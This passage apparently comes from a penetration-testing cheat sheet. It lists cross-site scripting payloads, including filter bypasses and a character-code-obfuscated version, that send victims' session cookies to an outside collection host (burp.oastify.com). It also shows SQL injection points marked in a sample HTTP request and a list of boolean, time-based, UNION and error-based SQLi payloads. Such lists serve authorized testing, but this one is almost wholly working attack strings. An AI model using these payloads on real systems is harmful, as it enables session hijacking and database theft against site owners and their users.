 ```html
# URL encoded
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?c='+document.cookie;%3E

# Useful Bypasses
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
# To CharCode Base 10
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```

### SQL Injection (SQLi)

##### Injection Points

```http
POST /?page=login[*] HTTP/1.1
Host: www.host.com[*]
Connection: close
Cache-Control: max-age=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36[*]
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
X-Server-Name: PROD[*]
Cookie: user=shiro[*]
Content-Type: application/x-www-form-urlencoded

username=shiro[*]&email=shiro@email.com[*]
```

>   If the data transmitted is in JSON format, remember to use double quotes `\` maintain the JSON data structure. Other special format data are similar. 
>
>   `{"username":"test\""}`

##### SQLi Payloads

```sql
'
')")
2*3
1/1
1/0
%%
' or 1=1 --
' or 1=2 --
' AND '1'='1
' AND '1'='2
' and sleep(5)
' waitfor delay '00:00:05' --
' (if 1=1) waitfor delay '00:00:05' --
' IF (LEN(DB_NAME())=6) WAITFOR DELAY '00:00:05' --
' IF (ASCII(lower(substring((DB_NAME()),1,1)))=116) WAITFOR DELAY '00:00:05' --
' ORDER BY 1--+
' UNION SELECT 1,2,3--+
'+UNION+SELECT+NULL,NULL--
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
' AND 1=(SELECT CASE WHEN (1=1) THEN 1/0 ELSE 1 END) --
```